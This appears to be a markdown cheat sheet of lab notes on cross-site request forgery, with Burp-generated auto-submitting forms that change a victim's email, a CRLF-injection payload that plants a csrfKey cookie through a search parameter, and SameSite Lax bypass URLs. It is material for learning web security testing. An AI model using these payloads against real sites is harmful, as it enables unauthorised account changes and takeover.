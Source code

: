# Cross-Site Request Forgery

# TABLE OF CONTENT
- **[Burp Suite CSRF PoF](#burp-suite-csrf-pof)**
- **[Bypass CSRF Token Validation](#bypass-csrf-token-validation)**
- **[Bypass SameSite Cookie Restriction](#bypass-samesite-cookie-restriction)**

## Burp Suite CSRF PoF 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8c00430370cdb281bc2110000d005a.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="id" value="wiener" />
      <input type="hidden" name="csrf" value="ASLKCEVLASKSfaksW" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Bypass CSRF Token validation


### Check if there's any csrf defense mechanism
We can check this by omitting the **`<input type="hidden" name="csrf" value="ASLKCEVLASKSfaksW" />`** part from the above payload. 

### CSRF where token validation depends on request method
Most requests are POST request, which validate the csrf token. However, when chaning these requests to other methods, the token is no longer valid. We can test this by changing the request method.

### CSRF where token validation depends on token bieng present
The token is only validated when it is present. When it is not ( by omitting the value field or the whole thinig like no defense mechanism scenario), there is no CSRF tokekn validation.

### CSRF token is not tied to the user session
Check if we can use CSRF token of 1 account to exploit another account. 
1. Log in account A and acquire its token
2. Log in account B and deliver the payload, modify the token with account A's token

### CSRF token is tied to a non-session cookie
Some applications use different frameworks for csrf tokens, which results in two different tokens being present at the same titme.

```bash
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

1. Check if the `csrfKey` is tied to `csrf`

| Steps | Results |
| ----- | ------- |
| Log in as `wiener:peter` and acquire the user's `csrfKey` and `csrf` values | |
| Capture the request trying to change the user's email. Modify the csrf token so it becomes invalid | If the application accepts the request, we can conclude the csrfKey and csrf are not tied together. Otherwise, continue to the next step. |
| Log in as `carlos:montoya` and capture the user's csrf. Replace wiener's csrf token with carlos' | If the application accepst the request, we can conclud the csrfKey and csrf are not tied together. Otherwise, continue to the next step. |
| Log in as `wiener:peter` and replace wiener's csrfKey and csrf tokens with carlos' | If the application accepts the request, we can conclue the csrf and csrfKey are tied together but the pair doesn't tie to the user-session cookie

2. Look for a functionality that allows us to modify the csrfKey. In this case, we can inject in the search function through GET request

```bash
https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()
```
In the response, we should see the `csrfKey` is set as we wish.
4. Deliver the payload

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac5009504bab9d186967b5f002b0096.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hello&#64;world&#46;com" />
      <input type="hidden" name="csrf" value="Your-csrf" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-csrfKey%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
**NOTE:** In this case, we assume the search function allows us to set cookies. We can do it directly in the developer tool.

### CSRF where token is duplicated in cookie
Some applications have both csrf token in the session cookies and the request

```bash
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

1. Here we can make up any value for the csrf, either through the Developer Tools or through some functionalities that allow us to set cookie.
2. Deliver the payload (which has csrf set to the value we make up in step 1)

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8500dc04f529b58343a52300a900b2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="oops12345&#64;example&#46;com" />
      <input type="hidden" name="csrf" value="random" />
      <input type="submit" value="Submit request"
    </form>
    <img src="https://0a8500dc04f529b58343a52300a900b2.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=random%3b%20SameSite=None" onerror="document.forms[0].submit();" />
  </body>
</html>
```

## Bypass SameSite Cookie Restriction
### Same Site vs Same Origin
Requests are considered same site when the have the same schemes, Top-Level Domain and the additional level of domain.

![image](https://github.com/user-attachments/assets/37f73966-f260-405b-8407-428ff7cab6a4)

Same origins are considered same origin when they have the same schemes, domain names, port numbers 

![image](https://github.com/user-attachments/assets/dc608dc1-bcee-48b1-86bd-005844d5388c)

- Check if the website have SameSite's value set. Otherwise, it is defaulted to be Lax.

### Bypassing SameSite Lax restrictions using GET requests
PHP Symphony has `_method` that allows us to specify the method sent to the server. A regular POST request can be sent to the server under a form of GET request:

```bash
https://example.com/my-account/change-email?email=pwned@web-security-academy.net&_method=POST
```

Payload 
```bash
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account";
</script>
```

### Bypassing SameSite restrictions using on-site gadgets








